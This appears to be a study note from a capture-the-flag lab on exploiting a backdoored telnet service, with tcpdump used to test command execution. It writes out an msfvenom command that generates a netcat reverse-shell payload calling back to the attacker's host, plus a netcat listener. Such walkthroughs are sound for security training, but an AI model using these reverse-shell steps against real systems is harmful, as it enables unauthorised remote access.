 ```yaml
---
title: Exploiting Telnet
updated: 2023-01-29T15:45:27.0000000+04:00
created: 2023-01-29T11:54:13.0000000+04:00
---
```


AM
**Example Method Breakdown**

So, from our enumeration stage, we know:

\- There is a poorly hidden telnet service running on this machine

\- The service itself is marked "backdoor"

\- We have possible username of "Skidy" implicated

**<u>-- Check to see if what we're typing is being executed as a system command</u>**

1.  On your local machine:

The following commands starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

- *sudo tcpdump ip proto [\\\icmp](file://icmp) -i tun0*

2.  Now, use the command "ping \[IP ADDRESS\] -c 1" through the telnet session to see if we're able to execute system commands

3.  Generating a MSFVENOM Netcat reverse shell

- *msfvenom -p cmd/unix/reverse_netcat lhost=\[local tun0 ip\] lport=4444 R*

- -p = payload
- lhost = our local host IP address (this is your machine's IP address)
- lport = the port to listen on (this is the port on your machine)
- R = export the payload in raw format

![image1](image1-30.png)

4.  Starting the Netcat Listener

- Nc -lvp {port number}

Example: nc -lvp 4444

